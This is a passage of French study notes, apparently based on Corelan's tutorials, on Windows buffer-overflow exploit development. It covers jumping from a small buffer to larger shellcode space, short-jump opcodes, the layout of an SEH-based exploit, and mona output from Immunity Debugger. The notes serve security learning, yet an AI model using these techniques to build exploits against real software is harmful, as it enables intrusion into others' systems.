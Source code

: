 
### Cas des petits buffers

Dans le cas où on a un buffer trop petit pour le shellcode, mais que celui peut être stocké ailleurs (ex: Au niveau d'un autre registre), alors il est possible d'utiliser le petit buffer pour écrire un shellcode pour jumper sur notre buffer plus étendu. Dans l'exemple de Corelan on vise ESP+150 et on s'interdit d'utiliser les caractères entre ESP+50 et ESP+150. Le payload suivant est efficient:

-   mov eax, esp
-   add eax, 0x32 (ajoute 50 à EAX)
-   add eax, 0x32 (ajoute 50 à EAX)
-   add eax, 0x32 (ajoute 50 à EAX)
-   jmp eax

Dans l'exemple ils font directement add esp, 0x32 puis jmp esp mais ça fout vraiment le bordel dans la pile, donc il vaut peut être mieux éviter.

### Short Jumps

Dans certains cas on peut avoir besoin de faire un simple **short jump** de quelques bytes. Dans ce cas le short jump a la forme suivante:

-   jmp 0x10 =&gt; 0xeb 0x10

Partie 3: SEH Based exploits
----------------------------

Basé sur la troisième partie du cours de [Corelan](https://www.corelan.be/index.php/2009/07/25/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-3-seh/) sur le développement d'exploits.

La structure global d'un exploit basé sur SEH est la suivante:

``` text
[JUNK][Short JMP          ][Address to POP, POP, RET][NOPs][Shellcode]
[????][Address to next SEH][Address of SEH Handler  ][???????????????]
```

On utilise un pattern pour identifier l'offset nécessaire pour écraser **Address of SEH Handler**. Au moment du crash, immunity bloque l'execution et nous demande si on souhaite lancer l'exception (avec SHIFT+F7/F8/F9). Au moment du blocage on peut voir l'état des adresses liées à SEH en faisant **ALT+S**.

Une fois cela fait il faut écraser cette adresse avec l'adresse d'une instruction de la forme POP, POP, RET. Mona peut servir à faire cela:

``` text
!mona seh -m strmdll.dll
```

Le résultat est le suivant:

``` text
0BADF00D   [+] This mona.py action took 0:00:00
0BADF00D   [+] Command used:
0BADF00D   !mona seh -m strmdll.dll

           ---------- Mona command started on 2016-04-24 07:04:16 (v2.0, rev 566) ----------
0BADF00D   [+] Processing arguments and criteria
0BADF00D       - Pointer access level : X
0BADF00D       - Only querying modules strmdll.dll
0BADF00D   [+] Generating module info table, hang on...
0BADF00D       - Processing modules
0BADF00D       - Done. Let's rock 'n roll.
0BADF00D   [+] Querying 1 modules
0BADF00D       - Querying module strmdll.dll
704D0000   Modules C:\Windows\system32\TAPI32.dll
0BADF00D   [+] Setting pointer access level criteria to 'R', to increase search results
0BADF00D       New pointer access level : R
0BADF00D   [+] Preparing output file 'seh.txt'
```